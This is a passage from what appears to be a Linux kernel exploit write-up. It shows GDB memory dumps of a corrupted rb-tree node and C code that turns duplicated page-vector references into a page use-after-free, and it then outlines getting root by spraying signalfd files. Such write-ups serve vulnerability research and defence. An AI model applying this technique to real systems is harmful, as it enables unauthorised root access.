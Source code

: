 By inspecting Evil Grandpa in GDB, we can confirm that its `rb_left` child now corresponds to page P.

```c
gef➤  p *(struct rb_node *)0xffff88810a6d1bf0 // E
$102 = {
    __rb_parent_color = 0x0,
    rb_right = 0x0 <fixed_percpu_data>,
    rb_left = 0xffff88810ac21000 // TARGET = P
}
```

This means that Page P has been copied from the original page vector (the one used to overwrite class 2:1) to the target `pgv`:

```c
gef➤  x/40gx 0xffff88810a6d0ca0 // Original (Class 2:1)
0xffff88810a6d0ca0:	0xffff88810ac1f000      0xffff88810ac20000
0xffff88810a6d0cb0:	0xffff88810ac21000***   0xffff88810ac22000
0xffff88810a6d0cc0:	0xffff88810ac23000      0xffff88810ac24000
0xffff88810a6d0cd0:	0xffff88810ac25000      0xffff88810ac26000

gef➤  x/40gx 0xffff88810a6d1bf0 // E
0xffff88810a6d1bf0:	0x0000000000000000      0x0000000000000000
0xffff88810a6d1c00:	0xffff88810ac21000***   0xffff888121325000
0xffff88810a6d1c10:	0xffff888121327000      0xffff888121328000
0xffff88810a6d1c20:	0xffff888121329000      0xffff88812132a000
```

**@step(9): Cause a page-UAF**: 

At this point, the same page is referenced in two different page vectors, creating a mismatch between the page refcount and the actual number of places where it is utilized. We can exploit this discrepancy to cause a page-UAF in just a few steps:

```c
    munmap(page_a, total_size); // counter = 3 -> 2
    munmap(page_b, total_size); // counter = 2 -> 1
    close(psock_a);             // counter = 1 -> 0 -> free

    // Page reclaimed, counter = 1
    for (int i = 0; i < NUM_PIPES; i++)
        write(pipes[i][1], buff, PAGE_SIZE); 

    close(psock_b); // counter = 0 -> free (page-UAF)
```

First, we free the page, then we reclaim it by writing to pipes (this will trigger a page allocation in [pipe_write()](https://elixir.bootlin.com/linux/v6.6.90/source/fs/pipe.c#L502)). 

Finally, we close the page vector containing the copied page pointer so the page is freed, causing a page-UAF.

**@step(10): Get root**

To get root privileges, we reclaim the freed page with a filp slab by spraying signalfd files.
